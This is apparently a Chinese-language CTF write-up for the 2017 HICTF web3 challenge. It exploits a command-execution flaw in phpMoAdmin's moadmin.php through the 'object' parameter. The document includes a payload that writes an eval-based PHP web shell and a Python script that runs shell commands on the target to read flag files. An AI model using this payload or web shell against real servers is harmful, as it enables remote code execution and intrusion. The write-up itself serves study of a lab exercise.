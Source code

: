 ## 环境构建
```
docker-compose build
docker-compose up -d
```

## 漏洞介绍
本题目是2017年HICTF的四个web题目中的web3，利用的漏洞不是joomla自身存在的漏洞，利用的是phpmoadmin的命令执行漏洞,漏洞文件在administrator/moadmin.php

## 漏洞利用

### PHP探针

()[luffy1.png]


### PHP getshell

`
bject=1;file_put_contents("shadow.php", "<?php eval(\$_POST[dji]) ?>");
`
()[luffy2.png]

验证
()[luffy3.png]


### 批量getflag

`
#!/usr/bin/env python
# encoding:utf-8

'''
Get flag by RCE of moadmin
'''

import requests

def get_flag(host, port):
    url = 'http://%s:%d/administrator/moadmin.php' % (host, port)
    data = {'object':'1;system("cat /opt/flag/flag.txt");'}
    response = requests.post(url, data=data)
    content = response.content
    flag = content.replace("\n", "").replace(" ","")
    print flag
    return flag

def main():
    get_flag("192.168.30.36", 12343)

if __name__ == '__main__':
    main()
`

